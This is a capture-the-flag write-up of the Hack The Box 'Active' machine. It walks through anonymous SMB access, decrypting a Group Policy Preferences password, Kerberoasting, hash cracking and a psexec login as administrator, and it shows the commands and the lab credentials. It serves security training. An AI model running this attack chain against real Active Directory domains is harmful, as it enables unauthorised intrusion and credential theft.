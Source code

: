 # HTB - Active

##### Ip: 10.10.10.100
##### Hostname: active.htb
##### Rating: Easy

------------------------------------------------

![active_card](../../assets/active_notes/active_card.png)

## Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
sudo nmap -p-  --min-rate 10000 10.10.10.100
```

As usual with Windows AD boxes, there's quite a few ports open here, with all the tell-tell signs of Windows box (All those RPC ports), and an AD Domain Controller specifically (ports 53,88,389, etc). Here, I am scanning the discovered open ports from our `-p-` scan, and tacking on the `-sC` and `-sV` flags to enumerate versions and run common scripts against the ports:

```text
┌──(ryan㉿kali)-[~/HTB/Active]
└─$ sudo nmap -sC -sV -T4 10.10.10.100 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49174
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 13:34 CDT
Nmap scan report for 10.10.10.100
Host is up (0.072s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-21 18:34:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-04-21T18:35:09
|_  start_date: 2023-04-21T01:33:39
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.01 seconds
```
Because there doesn't appear to be any http or FTP ports open, let's begin by enumerating the SMB ports (139/445) to try and find something juicy.

But before we do that, let's go ahead and add active.htb to the /etc/hosts file:

`10.10.10.100  active.htb`

### SMB Enumeration

Lately, my favorite way to enumerate shares (and my ability to read them) is with CrackMapExec. CME is an extremely powerful tool with so many use cases, and is one of my go-to tools when working with active directory (Here is a great cheat sheet/wiki on the tool: https://wiki.porchetta.industries/other-gitbook. In this case I tried enumerating shares with user 'guest' and a blank password (this didn't work, the Guest user had been smartly disabled), as well as a blank user and blank pw, which worked!

/home/ryan/HTB/Active/active_card.png

Ok cool, so looks like I have read access to the Replication share; let's check that out. For this I'm reverting back to the old-school smbclient tool to see what we can find. (CME has some cool ways to further check shares using the spider feature, but I find smbclient easier for cases like this)

Running: `smbclient //10.10.10.100/replication` and simply hitting enter in lieu of a password gets me into the share. After poking around a bit I found an interesting file called Groups.xml, and used `get Groups.xml` to pull the file back to my machine. If on the fly, you can always use `more Groups.xml` which essentially just lets you read the file stored in temporary memory in a vim-like setting, but I prefer to store files like this locally, in case I need to revisit them.

This file proves to be super interesting!

![gpp_pw](../assets/active_notes/gpp_pw.png)

Here we have what appear to be a username SVC_TGS as well as a password. These Groups.xml files can be a goldmine for penetration testers because they can store extremely sensitive data (like PWs) as a Group Policy Preference (GPP) file, which can be decrypted using various tools. 

### Decrypting the PW Hash

Armed with this knowledge we can use the built in Kali tool gpp-decrypt:

```text
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![gpp_decrypt](../assets/active_notes/gpp_decrypt.png)

Nice! We were very easily able to crack this password! Seems we may know have some credentials, 
`SVC_TGS:GPPstillStandingStrong2k18`, lets see what we can do with them. 

### Kerberoasting

Going with a hunch based on the username (SVC_TGS or ticket-granting service), I'm going to try Kerberoasting first, and more specifically, because this is a machine account (SVC) I'm going to take a look at SPNs.

Using Impacket's tool GetUserSPNs I can run the following:

`impacket-GetUserSPNs -dc-ip 10.10.10.100 -request active.htb/SVC_TGS`

for an easy win at kerberoasting! Furthermore, this appears to be the administrator hash; we hopefully we can use this cracked credential to login to the target with admin access. 

![kerberoast](../assets/active_notes/kerberoast.png)

### Cracking the Hash With JTR

From here I will simply copy the hash to a text file named kerb_hash, and let John The Ripper do the work for me to crack it:

Most excellent! John was able to crack the hash quite quickly:

![jtr_crack](../assets/active_notes/jtr_crack.png)

### Logging In

So now let's try to login with our newly found admin credentials of administrator:Ticketmaster1968.

Once again, Impacket to the rescue; let's try using psexec to login:

```text
impacket-psexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```

And since I am logging in as administrator I can grab both flags on the SVC_TGS and Administrator desktops respectively.

![user_txt](../assets/active_notes/user_txt.png)

![root_txt](../assets/active_notes/root_txt.png)

And that's that! This was a great beginner friendly Active Directory box illustrating some key concepts needed to successfully enumerate and attack enterprise environments. 

### Something Extra

I recently found out about this and found it super interesting, so thought I would share here as well- Recall back to screen shot after logging in as administrator, where I ran the `whoami` command and got a response back as `nt authority\system`.

Look what happens when I login using the very same credentials using a tool like wmiexec:

![wmiexec_login](../assets/active_notes/wmiexec_login.png)

Running `whoami` with this tool only lists me as active/administrator, whereas psexec will auto-elevate privileges to that of nt/system. For all intents and purposes my privileges are the same here, but for those of us that want to document the highest level of privileges (say for an examination, or to include in a report), psexec offers an easy win in that regard. Likely superficial, but interesting none-the-less. 

### Key Takeaways

- SMB can often contain a plethora of 'low hanging fruit' like we found here today. I was able to go from anonymous access to an SMB share to fully compromising the machine (or domain in this AD example) without anything too tricky, technically speaking. Sensitive information like credentials being stored somewhere like an open share like this is obviously not a good idea.

- Kerberoasting is an invaluable part of any attacker's arsenal. Learning about a few of the biggest attacks (golden/ silver tickets, SPNs, AS-REPs, etc) will pay dividends later on. 

- Similarly, Impacket and CrackMapExec are about as comprehensive and valuable tools as anyone could hope for when it comes to attacking Active Directory. These are huge tools that offer so much, and I am still only beginning to scratch there surface of what they can offer. Getting to know your tools is important in any line of work, but especially in pentesting. These are two worth getting to know well, in my opinion. 

Thanks for following along!

-Ryan

------------------------------------------------------------------------
